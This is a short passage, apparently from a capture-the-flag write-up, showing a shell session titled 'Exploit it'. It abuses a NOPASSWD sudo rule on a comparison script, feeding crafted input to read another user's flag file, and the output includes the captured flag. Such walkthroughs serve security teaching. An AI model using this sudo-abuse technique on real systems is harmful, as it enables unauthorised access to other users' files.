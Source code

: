 ```shell title="Exploit it"
cassiopeia@hades:~$ sudo -l
Matching Defaults entries for cassiopeia on hades:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User cassiopeia may run the following commands on hades:
    (clio) NOPASSWD: /bin/bash -c /usr/local/src/differences.sh
cassiopeia@hades:~$ sudo -u clio /bin/bash -c /usr/local/src/differences.sh
File to compare:!
/var/tmp/tesssssssst\x0/pwned/clio/flagz.txt
0a1
> ^XUJbvPwAZYgoUgkpeSv^
```
